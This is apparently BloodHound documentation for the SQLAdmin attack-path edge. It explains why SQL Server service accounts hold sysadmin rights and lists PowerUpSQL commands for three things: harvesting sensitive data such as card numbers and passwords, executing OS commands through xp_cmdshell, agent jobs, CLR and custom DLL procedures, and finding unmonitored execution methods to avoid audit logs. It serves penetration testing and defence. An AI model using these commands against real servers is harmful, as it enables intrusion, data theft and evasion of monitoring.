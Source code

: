 ```yaml
---
title: SQLAdmin
description: The user is a SQL admin on the target computer
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

There is at least one MSSQL instance running on the computer where the user with the inbound SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration for MSSQL is to have the local Windows account or Active Directory domain account that is configured to run the SQL Server service (the primary database engine for SQL Server) have sysadmin privileges in the SQL Server application. As a result, the SQL Server service account can be used to log into the SQL Server instance remotely, read all of the databases (including those protected with transparent encryption), and run operating systems command through SQL Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances and the associated service account can be identified by executing a LDAP query for a list of “MSSQLSvc” Service Principal Names (SPN) as a domain user. In short, when the Database Engine service starts, it attempts to register the SPN, and the SPN is then used to help facilitate Kerberos authentication.

This clip demonstrates how to abuse this edge:

<iframe id="youtube-1659" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for 2 11 BloodHound Head to Tail Andy Robbins Rohan Vazarkar" width="100%" height="420" src="https://www.youtube.com/embed/fqYoOoghqdE?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp" data-gtm-yt-inspected-6="true"></iframe>

## Abuse Info

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before executing any of the below commands, download PowerUpSQL and load it into your PowerShell instance. Get PowerUpSQL here: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Finding Data**

Get a list of databases, sizes, and encryption status:
```
Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\\instance –Threads 10 -NoDefaults
```
Search columns and data for keywords:
```
Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\\instance –Threads 10 –Keyword "card, password" –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize
```

**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system commands on remote systems through SQL Server using different techniques. The level of access on the operating system will depend largely what privileges are provided to the service account. However, when domain accounts are configured to run SQL Server services, it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:
```
Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance
```

Agent Job Execution Examples:
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\\windows\\temp\\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword
```

```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\\windows\\temp\\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword
```

```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```

```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```

Python Subsystem Execution:
```
Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance
```

R subsystem Execution Example:
```
Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance
```

OLE Execution Example:
```
Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance
```

CLR Execution Example:
```
Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance
```

Custom Extended Procedure Execution Example:

1.  Create a custom extended stored procedure:
```
Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\\temp\\test.txt" -ExportName xp_test
```

2.  Host the test.dll on a share readable by the SQL Server service account:
```
Get-SQLQuery -Verbose -Query "sp\_addextendedproc 'xp\_test', '\\\yourserver\\yourshare\\myxp.dll'" -Instance sqlserver\instance
```

3.  Run extended stored procedure:
```
Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance
```

4.  Remove extended stored procedure:
```
Get-SQLQuery -Verbose -Query "sp\_dropextendedproc 'xp\_test'" -Instance sqlserver\instance
```

## Opsec Considerations

Prior to executing operating system commands through SQL Server, review the audit configuration and choose a command execution method that is not being monitored.

View audits:
```
SELECT * FROM sys.dm\_server\_audit_status
```

View server specifications:
```
SELECT audit_id,
a.name as audit_name,
s.name as server\_specification\_name,
d.audit\_action\_name,
s.is\_state\_enabled,
d.is_group,
d.audit\_action\_id,
s.create_date,
s.modify_date
FROM sys.server_audits AS a
JOIN sys.server\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.server\_audit\_specification_details AS d
ON s.server\_specification\_id = d.server\_specification\_id
```

View database specifications:
```
SELECT a.audit_id,
a.name as audit_name,
s.name as database\_specification\_name,
d.audit\_action\_name,
d.major_id,
OBJECT_NAME(d.major_id) as object,
s.is\_state\_enabled,
d.is_group, s.create_date,
s.modify_date,
d.audited_result
FROM sys.server_audits AS a
JOIN sys.database\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.database\_audit\_specification_details AS d
ON s.database\_specification\_id = d.database\_specification\_id
```

If server audit specifications are configured on the SQL Server, event ID 15457 logs may be created in the Windows Application log when SQL Server level configurations are changed to facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may be created in the Windows Application log when Agent and database level configuration changes are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and configuring audit configurations can be found at [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql)

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group), [Computer](/resources/nodes/computer)   
Destination: [Computer](/resources/nodes/computer)   
Traversable: **Yes**  


## References

* [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)
* [https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation](https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation)
* [https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)
* [https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017)
* [https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/](https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/)
